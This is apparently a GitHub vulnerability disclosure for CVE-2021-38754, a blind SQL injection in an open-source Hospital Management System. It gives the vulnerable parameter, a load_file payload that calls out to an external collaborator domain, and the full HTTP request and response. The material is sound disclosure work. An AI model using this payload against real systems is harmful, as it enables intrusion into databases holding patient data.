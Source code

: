 ## [CVE-2021-38754](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-38754)
## [Vendor](https://github.com/kishan0725/Hospital-Management-System)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-38754/docs/Screenshot%202021-10-22%20135918.png)


## Description:
SQL Injection - type ` time-based blind` vulnerability is in Hospital Management System 1.0 due to lack of input validation in `messearch.php` and `contact.php`.
The `txtEmail` parameter appears to be vulnerable to SQL injection attacks. The payload '+(select load_file('\\\\ao2f0zoz0iu9cob52rm6nhpjpav3jy7pad20toi.nu11secur1tycollaborator.net\\iyv'))+' was submitted in the txtEmail parameter. This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. The application interacted with that domain, indicating that the injected SQL query was executed.

## MySQL Request:

```mysql
POST /Hospital-Management-System-master/contact.php HTTP/1.1
Host: 192.168.1.215
Origin: http://192.168.1.215
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.215/Hospital-Management-System-master/contact.html
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 112

txtName=579853&txtEmail=yqPiidRW@nu11secur1tycollaborator.net'%2b(select%20load_file('%5c%5c%5c%5cao2f0zoz0iu9cob52rm6nhpjpav3jy7pad20toi.nu11secur1tycollaborator.net%5c%5ciyv'))%2b'&txtPhone=732-434-44&btnSubmit=Send+Message&txtMsg=832921
```

## MySQL Response:

```mysql
HTTP/1.1 200 OK
Date: Fri, 22 Oct 2021 10:26:22 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.4.24
X-Powered-By: PHP/7.4.24
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
```
## Result:

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-38754/docs/Screenshot%202021-10-22%20142149.png)

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-38754)

## Proof:
[href](https://streamable.com/y9qy4m)

